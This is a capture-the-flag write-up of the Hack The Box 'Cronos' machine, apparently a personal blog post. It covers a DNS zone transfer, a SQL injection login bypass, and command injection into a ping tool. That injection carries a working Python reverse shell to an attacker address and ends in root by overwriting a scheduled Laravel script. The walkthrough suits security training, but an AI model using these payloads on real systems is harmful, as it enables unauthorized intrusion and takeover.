 ```yaml
---
title: "Cronos"
description: "Writeup for Cronos machine from HTB"
date: 2020-09-05
lastmod: 2020-09-05
author: "Pablo Jesús González Rubio"
cover: "cronos.png"
coverAlt: "Cronos icon"
toc: true
tags: [ "Writeup" ]
---
```


> `fast-nmap` and `gobusterdefault` are aliases from [this gist](https://gist.github.com/n0nuser/34fc14a084436ae89c2b3405ad453f0a)

## Scanning

I've put the machine IP in `/etc/hosts` for easy access:

```
10.10.10.13 cronos.htb
```

Then I've run my alias for nmap:

```
fast-nmap cronos.htb
```

Output:

```
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Cronos
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeration

We have HTTP port open:

{{< img "laravel.png" "Laravel" "border" >}}

We can look for hidden directories with Gobuster:

```
gobuster-default cronos.htb
```

Output:

```
/index.php (Status: 200)
/icons/ (Status: 403)
/css/ (Status: 200)
/js/ (Status: 200)
/server-status/ (Status: 403)
```

DNS port is also open, which means we might have some subdomain behind the initial webpage. We can do a Domain Transfer to list all of the subdomains it might have:

```
dig axfr @10.10.10.13 cronos.htb
```

Output:

```
; <<>> DiG 9.16.4-Debian <<>> axfr @10.10.10.13 cronos.htb
; (1 server found)
;; global options: +cmd
cronos.htb.		604800	IN	SOA	cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.		604800	IN	NS	ns1.cronos.htb.
cronos.htb.		604800	IN	A	10.10.10.13
admin.cronos.htb.	604800	IN	A	10.10.10.13
ns1.cronos.htb.		604800	IN	A	10.10.10.13
www.cronos.htb.		604800	IN	A	10.10.10.13
cronos.htb.		604800	IN	SOA	cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 47 msec
;; SERVER: 10.10.10.13#53(10.10.10.13)
;; WHEN: sáb sep 05 12:07:56 CEST 2020
;; XFR size: 7 records (messages 1, bytes 203)
```

It seems to be an admin subdomain, let's add it to `/etc/hosts`.

{{< img "admin.png" "Admin" "border" >}}

**Gobuster** on subdomain:

```
gobusterdefault admin.cronos.htb
```

Output:

```
/index.php (Status: 200)
/icons/ (Status: 403)
/welcome.php (Status: 200)
/logout.php (Status: 200)
/config.php (Status: 200)
/session.php (Status: 200)
/server-status/ (Status: 403)
```

Trying to log in with the SQLi:

```sql
admin' or '1'='1
```

> Full list with SQLI references [here](https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/).

That let us login into what seems a traceroute tool:

{{< img "nettool.png" "NetTool" "border" >}}

Bash commands can continue in the same line if they are interrupted by a `;`, it's pretty much a breakline. This happens in other languages such as C or Python.

So if the ping tool is usually performed like this:

```
ping 8.8.8.8
```

We can trick the webpage tool to execute our reverse shell:

```
ping 8.8.8.8; python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.14",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

And with netcat listening at port 4444, we have a shell!

```
nc -lnvp 4444
```

{{< img "wwwdata.png" "WWW-Data" "border" >}}

`/home/noulis/user.txt` has read access, so we can read it even not being him.

## Privilege Escalation

I uploaded [`linpeas`](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) to look for any Privilege Escalation patterns.

We saw before the platform was very enthusiastic about [Laravel](https://forge.laravel.com/) and there's this odd service running:

{{< img "service.png" "Service" "border" >}}

We look for what the file `artisan` is and it's a PHP script that's running on schedule:

{{< img "artisan.png" "Artisan" "border" >}}

So we just have to modify it with the Pentest Monkey PHP reverse shell pointing at us:

{{< img "reverse.png" "PHP Reverse Shell" "border" >}}

And listening with netcat...

{{< img "root.png" "Root!" "border" >}}

Voilá! We are root 😁
